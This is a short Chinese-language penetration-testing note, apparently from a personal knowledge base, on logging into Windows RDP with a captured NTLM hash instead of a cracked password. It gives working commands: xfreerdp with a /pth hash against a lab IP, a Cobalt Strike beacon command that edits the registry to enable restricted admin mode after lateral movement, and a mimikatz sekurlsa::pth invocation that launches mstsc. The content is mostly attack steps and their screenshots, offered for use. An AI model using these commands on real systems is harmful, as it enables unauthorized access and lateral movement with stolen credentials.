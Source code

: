 有时候拿到了没办法破解的hash，但是又想rdp上去，这个时候可以尝试一下利用hash登陆rdp。<br />局限条件是 win10、win12的机子才可以利用，Windows 7和Server 2008默认不支持，需要安装2871997、2973351补丁。

<a name="7iUqe"></a>
## kali xfreerdp
安装一波<br />root@kali:~# apt-get install freerdp-x11

root@kali:~# xfreerdp /v:192.168.201.186 /u:XuanJian /pth:0c9dfe5b779d22c2d4107b054cf72efa<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626156707230-bbb61f89-c580-4007-b97e-7123f4b933d7.png#align=left&display=inline&height=616&originHeight=821&originWidth=1346&size=346932&status=done&style=none&width=1010)<br />但是会有报错信息。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626156878968-515908f3-2df2-4d67-bf10-b10eb6cf956c.png#align=left&display=inline&height=434&originHeight=578&originWidth=795&size=21849&status=done&style=none&width=596)<br />其实没关系，我们可以横向之后更改策略。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626156949511-e36a861f-35eb-433f-abfa-78519e2fddde.png#align=left&display=inline&height=61&originHeight=81&originWidth=843&size=6239&status=done&style=none&width=632)
```
beacon> shell REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626157140635-df203aee-c186-437f-8df9-761fb9862153.png#align=left&display=inline&height=437&originHeight=874&originWidth=1687&size=843436&status=done&style=none&width=843.5)

<a name="i09AP"></a>
## mimikaz
```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:XuanJian /domain:192.168.201.186 /ntlm:0c9dfe5b779d22c2d4107b054cf72efa "/run:mstsc.exe /restrictedadmin"
```
sekurlsa::pth /user:XuanJian /domain:192.168.201.186 /ntlm:0c9dfe5b779d22c2d4107b054cf72efa "/run:mstsc.exe /restrictedadmin"<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626157703417-7c190397-28e9-4eb3-9cda-8d22f114478a.png#align=left&display=inline&height=364&originHeight=727&originWidth=1392&size=539832&status=done&style=none&width=696)
